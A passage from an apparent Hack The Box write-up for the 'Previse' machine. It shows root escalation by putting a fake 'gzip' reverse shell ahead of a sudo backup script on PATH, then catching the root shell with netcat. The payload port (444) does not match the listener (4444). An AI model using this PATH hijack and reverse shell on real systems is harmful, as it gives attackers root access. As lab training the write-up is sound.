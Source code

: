 Not too surprisingly we find our escalation path. Looking at the script:

```text

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

We see it's simply zipping up logs, but there is no path to the gzip executable so we can create our own gzip file and use that instead:

```text
m4lwhere@previse:~$ echo "bash -i >& /dev/tcp/10.10.14.214/444 0>&1" > gzip
m4lwhere@previse:~$ chmod 777 gzip
m4lwhere@previse:~$ export PATH=$(pwd):$PATH
m4lwhere@previse:~$ echo $PATH
/home/m4lwhere:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Here we've just created a file called gzip in the current folder which has a reverse shell in it. Then I've made it executable and added the current folder to the system path.

## Root Flag

Now we can run the backup script as root, with another netcat waiting in a different terminal:

```text
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```

Switching across we see we have our shell connected as root:

```text
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.104] 55386
root@previse:~# id 
id
uid=0(root) gid=0(root) groups=0(root)
```

We can grab the root flag:

```text
root@previse:~# cat /root/root.txt
cat /root/root.txt
<HIDDEN>
```

And that's another box completed. I hope you enjoyed this pretty simple one. See you next time.
